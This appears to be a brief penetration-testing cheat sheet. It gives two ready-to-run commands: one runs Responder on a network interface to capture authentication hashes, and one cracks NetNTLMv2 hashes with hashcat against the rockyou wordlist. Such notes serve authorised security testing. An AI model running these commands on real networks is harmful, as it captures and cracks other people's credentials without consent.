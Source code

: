# Grab hashes with responder
```bash
sudo responder -I eth0 -dwPv
```

-----------------------

# Crack with hashcat
```bash
hashcat -m 5600 hashes.txt rockyou.txt
```

-----------------------
